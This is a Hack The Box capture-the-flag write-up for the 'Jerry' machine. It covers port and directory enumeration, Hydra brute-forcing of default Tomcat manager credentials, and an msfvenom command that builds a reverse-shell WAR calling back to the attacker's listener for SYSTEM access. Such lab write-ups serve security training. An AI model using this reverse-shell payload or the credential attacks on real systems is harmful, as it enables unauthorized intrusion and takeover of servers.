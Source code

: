 # HTB - Jerry

##### Ip: 10.10.10.95
##### Name: Jerry
##### Rating: Easy

------------------------------------------------

![Jerry.png](../assets/jerry_assets/Jerry.png)

#### Enumeration

As always, lets kick things off with an Nmap scan covering all TCP ports. Because I'm not worried about traffic or the 'noise' I'm making, I'm adding the `--min-rate 10000` attribute to speed things along:

```text
┌──(ryan㉿kali)-[~/HTB/Jerry]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.95   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 12:25 CDT
Nmap scan report for 10.10.10.95
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Ok interesting, looks like only one port open, which is pretty rare for a Windows machine. Let's go ahead and emumerate a bit further and port scan with the `-sC` and `-sV` flags set to enumerate versions and also throw some basic Nmap scripts at it:

nmap_scan.png

Looks like this is running Apache Tomcat, which usually hosts a login form in the `/manager` directory. Lets go ahead and kick off a directory fuzzing scan to see if there is anything interesting we can find:

```text
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Jerry]
└─$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/22 12:31:07 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Great! Navigating to the /manager directory in the browser I'm met with a login prompt:

login_page.png

#### Brute Forcing

Based on passed experience I know that Tomcat has a few different default passwords that are used during setup, and sometimes Administrators fail to change these credentials. Lets use Hydra to try and brute force these credentials, but rather than just using the standard rockyou.txt wordlist, in this case I'll try something more targeted to the specific service. There is a phenomenal wordlist package called SecLists available for download at https://github.com/danielmiessler/SecLists. This package contains multiple lists for directory fuzzing, wordlists for usernames and passwords, and more. Specifically of interest for us on Jerry, it also contains a list featuring default credentials for Tomcat. 

To me it always makes sense to try more targeted wordlsists first, and for a couple different reasons.

1. Just for the sake of my own time. Take a look at the wordcounts for the Tomcat Default Credentials list vs something like rockyou:

wc_list.png

Hydra can blaze through the Tomcat list n early instantly, while rockyou would take hours and hours. Starting more simple and targeted and increasing your net as needed seems like the best path here. Not to mention that highly specific credentials may not even exist at all in rockyou.

2. While not relevant on a HTB machine, throwing something like rockyou against a login page would generate a HUGE amount of network traffic and would likely be detected quickly. While brute forcing isn't stealthy by nature, the logic follows that fewer login attempts generates less traffic and noise, which is less likely to be detected.

So all that said lets kick off Hydra against the login page:

hydra_bf.png

Nice! Hydra has found two possible sets of credentials. The first pair of admin:admin turned out to be a false positive (Hydra is great, but not perfect after all), but the credentials tomcat:s3cret worked great. We can now login to the /manager page. From here it should be a breaze to get a working shell on the machine.

Scrolling down the page we see  there is an option to upload and deploy a .war file.

war_upload.png

This will be the ticket onto the machine. Lets go ahead and generate a reverse shell .war file using msfvenom:

#### Exploitation

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 -f war > rev_shell.war
```

After uploading the file and deploying it, I can see my rev_shell in the applications list. Making sure I have a netcat listener set up on port 443, I can catch a shell back by simply clicking on rev_shell, which forwards me to http://10.10.10.95:8080/rev_shell/.

Taking a look at my listener I see it worked, and I now have a shell as nt\authority system, which also means no privilege escalation needed!

nc_shell.png

Navigating to the Administrators desktop I see that both flags are in the '2 for the price of 1.txt' file:

both_flags.png

#### Something Extra

Funnily enough, in this case, brute forcing wasn't even needed. After a failed login attempt at /manager, we are redirected to a 403: Access Denied page, which contains some 'helpful' instructions:

access_denied.png

We can see here the default (but working) credentials listed as an example. To me, it always makes sense to start simple and throw a quick admin:admin or admin:password at a login page, or to try any example credentials you find before kicking off a brute forcing or dictionary attack.

#### Key Takeaways

- As a user or administrator, make sure you always change your default credentials when setting up services. Conversely, as an attacker, it's always a good idea to try known default credentials or other easy quick wins (root:root, admin:passwd, etc), before getting too technical or trying nosiy methods like brute forcing. 

-  On a similar note, it always makes sense to try simpler, more targeted attacks before resorting to more complex and less specific attack vectors. Cast a small net at first, and increase in complexity and in scope only as needed.

- Lastly, SecLists is your friend, and very much worth downloading and exploring.

Thanks for following along!

-Ryan

---------------------------------------------------------------------------------------------

